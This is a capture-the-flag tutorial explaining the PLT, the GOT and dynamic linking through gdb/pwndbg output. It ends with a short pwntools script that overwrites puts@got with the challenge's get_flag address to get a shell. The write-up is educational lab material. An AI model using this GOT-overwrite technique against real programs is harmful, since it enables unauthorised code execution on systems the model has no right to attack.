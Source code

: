 # Get My Got
This challenge is based around the plt, got, and dynamic linker. Before we start
analying the binary, we will first explain these terms. 

In the problem binary, we call `puts` to print text. This is a function defined
by libc, the C standard library. When we write programs, we don't want to
include the entirety of libc in our binary, as it's pretty big and will waste
disk space. We fix this by doing something called dynamic linking. Our system
has a single copy of libc at some predetermined location, and all programs share
it. We can use `ldd -v getmygot` to see what the binary is linked against.

```
        linux-vdso.so.1 (0x00007ffcb994c000)
        libc.so.6 => /usr/lib/libc.so.6 (0x00007f2de59b5000)
        /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007f2de5bbc000)

        Version information:
        ./getmygot:
                libc.so.6 (GLIBC_2.7) => /usr/lib/libc.so.6
                libc.so.6 (GLIBC_2.4) => /usr/lib/libc.so.6
                libc.so.6 (GLIBC_2.2.5) => /usr/lib/libc.so.6
        /usr/lib/libc.so.6:
                ld-linux-x86-64.so.2 (GLIBC_2.2.5) => /usr/lib64/ld-linux-x86-64.so.2
                ld-linux-x86-64.so.2 (GLIBC_2.3) => /usr/lib64/ld-linux-x86-64.so.2
                ld-linux-x86-64.so.2 (GLIBC_PRIVATE) => /usr/lib64/ld-linux-x86-64.so.2
```

We can see that the binary expects libc to be located at `/usr/lib/libc.so.6`.
That single copy of libc is shared by all the dynamically linked programs on our system.

libc on almost all systems is compiled as a position independent executable, or
PIE. This means the binary can be loaded in at any memory location. For security
reasons, the address it is loaded into memory at is somewhat randomized.  This
stops an attacker from being able to jump to libc functions (since you don't
know where they are). However, the program must know where the functions are to
call them normally. This is the job of the got and plt. When a program wants to
call a libc function (i.e. `puts`), it goes through the following steps.

1. Jump to the corresponding plt entry for the function (`puts@plt`)
2. Jump to the value in the got
3. If this is the first time the function has been called, the value is in the
   got is the address of the dynamic linker. This finds the functions address,
   and writes it to the got. Once it is done it then jumps to the function
4. Otherwise, the value in the got is the address of the function


Generally, the got acts as a simple array of function addresses, and the plt is
the code that manages it. We will walk through the two cases for `puts` using
the binary using gdb/pwndbg.

First, we will get to the first instance of puts being called. Anything that
starts with `pwndbg>` is a command, everything else is command ouput (output may be
cutoff for brevity)


```
pwndbg> b main
pwndbg> r
pwndbg> n 5
 > 0x401215 <main+34>    call   puts@plt <puts@plt>
```

We can see that the program calls `puts@plt` instead of `puts` directly. This is
normal, and occurs whenever the program has to call a function that isn't at a
static address. We will now look at the contents of `puts@plt`

```
pwndbg> si
 > 0x401070       <puts@plt>                   endbr64 
   0x401074       <puts@plt+4>                 bnd jmp qword ptr [rip + 0x2f9d] <0x401030>
```

Here we are jumping to the value at `rip+0x2f9d`, or the value at `0x404018`.
This is the address of the got entry for `puts`. We can verify this by running
the below command

```
pwndbg> got

GOT protection: Partial RELRO | GOT functions: 4
 
[0x404018] puts@GLIBC_2.2.5 -> 0x401030 <— endbr64 
[0x404020] __stack_chk_fail@GLIBC_2.4 -> 0x401040 <— endbr64 
[0x404028] execve@GLIBC_2.2.5 -> 0x401050 <— endbr64 
[0x404030] __isoc99_scanf@GLIBC_2.7 -> 0x401060 <— endbr64 
```

Here we can see that the got entry for `puts` is located at `0x404018` and has
the value of `0x401030`, which is an address located at the beginning of the
plt. Lets go back to the dissassembly.

```
 > 0x401070       <puts@plt>              endbr64 
   0x401074       <puts@plt+4>            bnd jmp qword ptr [rip + 0x2f9d] <0x401030>
    ↓
   0x401030                               endbr64 
   0x401034                               push   0
   0x401039                               bnd jmp 0x401020 <0x401020>
    ↓
   0x401020                               push   qword ptr [rip + 0x2fe2] <0x404008>
   0x401026                               bnd jmp qword ptr [rip + 0x2fe3] <_dl_runtime_resolve_xsavec>
    ↓
   0x7ffff7fe7d30 <_dl_runtime...ec>      endbr64 
   0x7ffff7fe7d34 <_dl_runtime...ec+4>    push   rbx
   0x7ffff7fe7d35 <_dl_runtime...ec+5>    mov    rbx, rsp
   0x7ffff7fe7d38 <_dl_runtime...ec+8>    and    rsp, 0xffffffffffffffc0
```

The code jumps to the beginning of the plt, where it pushes the index of the
function in the got (0), and the address of the start of the got (`0x404008`),
then jumps to the dynamic linker. The dynamic linker then looks up the
address of `puts`, and writes it to the got. We will not be explaining how that
works, as you don't need to know about it to exploit the got.

```
pwndbg> finish
 > 0x40121a <main+39>    lea    rdi, [rip + 0xdff] <0x7ffff7f884f0>
   0x401221 <main+46>    call   puts@plt <puts@plt>
```

Now we are back in the main function like we just called the function normally.
However, now that the correct address has been written to the got, any
subsequent calls to `puts` will work differently.

```
pwndbg> n
pwndbg> si
 > 0x401070       <puts@plt>      endbr64 
   0x401074       <puts@plt+4>    bnd jmp qword ptr [rip + 0x2f9d] <puts>
pwndbg> n 2
 > 0x7ffff7e3a380 <puts>          endbr64

pwndbg> got

GOT protection: Partial RELRO | GOT functions: 4
 
[0x404018] puts@GLIBC_2.2.5 -> 0x7ffff7e3a380 (puts) <— endbr64 
[0x404020] __stack_chk_fail@GLIBC_2.4 -> 0x401040 <— endbr64 
[0x404028] execve@GLIBC_2.2.5 -> 0x401050 <— endbr64 
[0x404030] __isoc99_scanf@GLIBC_2.7 -> 0x401060 <— endbr64 
```

As you can see, now the plt just reads the address of `puts` from the got, and
jumps directly to it. This gets us to the actual `puts` function with just 1 more
jump than normal.

Now that we understand the got, exploiting it is actually very simple. The
binary inputs two numbers, and writes the second number to the address specified
by the first. If we send the address of `puts@got` (`0x404018`) as the first
value, and the address of `get_flag` (`0x401196`) as the second, we will get a
shell. This is because the last call to `puts` will look up the value of `puts` in
the got, but will get the address of `get_flag` instead. That means it will jump
to `get_flag` instead of `puts`, giving us a shell. Here is an example solution.

```python
from pwn import *

p = process('getmygot')
e = ELF('getmygot')
p.recvline()
p.sendline(str(e.got['puts']))
p.sendline(str(e.sym['get_flag']))
p.interactive()
```

Pwntools information: You should already know how to use `process`, `ELF`, `sym`
from previous tutorials. The `ELF` also has `got` and `plt` dictionaries, that
return the address of the `got` and `plt` entries for a specific function.

End Note: In this writeup I referred to the got. However, more specifically the
got is seperated into two sections: `.got` and `.got.plt`. Generally the `.got`
section is for global variables, while the `.got.plt` section is used for
functions. However, this distinction is not particularly important. Similiarly,
the plt is seperated into `.plt` and `.plt.sec`. This is due to a different
security feature called Intel MPX, and can be ignored. (This is also where all
the `bnd jmp` instructions come from.)

# Further Reading

[GOT/PLT: https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)

[Intel MPX: https://en.wikipedia.org/wiki/Intel_MPX](https://en.wikipedia.org/wiki/Intel_MPX)
